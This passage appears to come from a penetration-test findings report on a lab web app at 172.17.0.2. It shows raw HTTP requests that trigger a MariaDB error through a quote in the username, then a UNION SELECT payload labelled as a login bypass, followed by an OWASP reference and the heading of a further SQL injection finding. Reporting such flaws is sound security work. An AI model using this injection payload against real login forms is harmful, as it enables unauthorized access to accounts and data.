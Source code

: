 Content-Length: 22
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d181840f69c38ed49b0c9a1bb2c6a24b
Connection: keep-alive

username='&password=we
```

#### Response [TRUNCATED]

```
<br />
<b>Notice</b>:  Invalid query: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ff1ccf57e98c817df1efcd9fe44a8aeb'' at line 1 in <b>/var/www/html/login.php</b> on line <b>63</b><br />
```

### Bypass login using the following payload

```
POST /login.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 22
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d181840f69c38ed49b0c9a1bb2c6a24b
Connection: keep-alive

username='+union+select+1,1+--+aa&password=whatever
```
###### References:
[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)


-------------


##### 3. SQL Injection
###### Severity:
High
###### Description:
SQL Injection is an attack technique used to exploit applications that construct SQL statements from user-supplied input. When successful, the attacker is able to change the logic of SQL statements executed against the database.

```